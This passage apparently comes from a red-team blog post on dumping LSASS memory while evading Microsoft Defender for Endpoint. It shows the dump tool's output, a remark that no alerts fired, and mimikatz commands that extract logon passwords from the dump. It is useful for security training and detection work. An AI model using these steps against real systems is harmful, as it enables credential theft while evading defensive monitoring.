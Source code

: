 ```
[*] Finding LSASS process
[*] LSASS found
[*] Checking for Credential Guard...
[*] No Credential Guard detected
[*] Collecting data for minidump: system info
[*] Collecting data for minidump: module info
[*] Collecting data for minidump: memory info and content
[*] Generating the minidump file
[*] Wrote LSASS minidump to output/edr-bypass-2023-09-07-lsass.dmp
[*] Read 71 MB, cached reads 10 MB
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230907180732.png)

Noting for any alerts, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180840.png)

### Credential Extraction from dump file

Exfiltrate the minidmp file from `C:\Tools\minidump` back onto our local machine by a simple Copy - Paste and parse it using mimikatz as follows:

```
PS D:\Work\CRTPwithSLiver\Tools\mimikatz_trunk\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::minidump minidump.dmp
Switch to MINIDUMP : 'minidump.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'minidump.dmp' file for minidump...

```

[+]: Shellcode located at c7160